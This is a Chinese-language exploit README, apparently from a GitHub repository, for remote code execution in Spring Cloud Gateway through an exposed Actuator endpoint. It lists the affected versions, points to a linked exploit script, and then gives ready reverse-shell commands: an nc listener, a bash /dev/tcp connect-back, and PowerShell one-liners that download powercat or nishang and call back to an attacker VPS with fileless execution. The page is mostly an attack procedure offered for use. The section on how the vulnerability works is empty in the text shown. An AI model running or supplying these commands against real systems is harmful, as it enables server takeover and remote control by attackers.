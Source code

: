 # SpringCloudGateway 漏洞利用

## 利用条件：

- Spring Cloud Gateway 启用和暴露 Gateway Actuator 端点
- Spring Cloud Gateway < 3.1.1
- Spring Cloud Gateway < 3.0.7

## 利用方法：

#### 步骤一：

访问页面，可以看到路由配置信息：
` http://ip:端口/actuator/gateway/routes `

#### 步骤二：

使用[脚本](/file/SpringCloudGateway.py)执行RCE命令

![](/img/whoami.png)

#### 步骤三：
	
反弹shell

>vps开启nc监听：
```base
nc -lvp 2333
```
目标机器cmd执行：

>linux：
```base
bash -i >& /dev/tcp/vpsIP/2333 0>&1
```
>windows：

powercat反弹：
```base
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.4 -p 2333 -e cmd
```
TCP流量，远程下载无文件落地执行：
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress vpsIP -port 2333
```
Udp流量,远程下载无文件落地执行
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');Invoke-PowerShellUdp  -Reverse  -IPAddress  vpsIP -port 2333
```

## 漏洞原理：